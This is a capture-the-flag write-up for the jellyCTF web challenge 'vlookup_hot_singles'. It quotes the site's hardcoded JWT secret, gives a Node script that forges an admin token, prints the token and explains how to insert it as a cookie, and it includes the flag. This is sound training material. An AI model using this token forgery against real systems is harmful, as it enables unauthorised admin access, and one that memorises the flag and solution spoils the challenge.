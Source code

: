 # vlookup_hot_singles

**Difficulty**: Easy

**Points earned**: 100

**Description**:

```
looks like this is some kind of dating site for nerds? weird, figure out who the admin is and access their panel

50 point hint: what to do, but not how to do it

Author: arepi

https://vlookup-hot-singles.jellyc.tf/
```

![vlookup_hot_singles website](./images/vlookup_hot_singles.png "vlookup_hot_singles")

**Solution**: Forge a JWT to access the admin panel.

The source code gives us some hints about what the JWT should look like:

```python
JWT_SECRET = "singaQu5aeWoh1vuoJuD]ooJ9aeh2soh"

def is_admin(token):
    data = jwt.decode(token, JWT_SECRET, algorithms=["HS256"])
    return data["user"] == "jelly"
```

I wrote a Node script to generate the JWT:

```js
 const sign = require('jwt-encode');
 const secret = 'singaQu5aeWoh1vuoJuD]ooJ9aeh2soh';
 const data = {
     user: "jelly"
 };
 const jwt = sign(data, secret);
 console.log(jwt);
```

Which gives me `eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiamVsbHkifQ.7wQ41K0c7OZqWaePlf3v0QKuX-jOc4kFqks_eWrfQhE`.

Then I opened Chrome devtools and went to cookies under Application > Storage. Paste the encoded JWT into the token value field and then you should be able to access the admin panel.

![vlookup_hot_singles solution](./images/vlookup_hot_singles_sol.png "vlookup_hot_singles solution")

**Flag**: `jellyCTF{i_am_b3c0m3_awawa_d3str0y3r_0f_f3m4135}`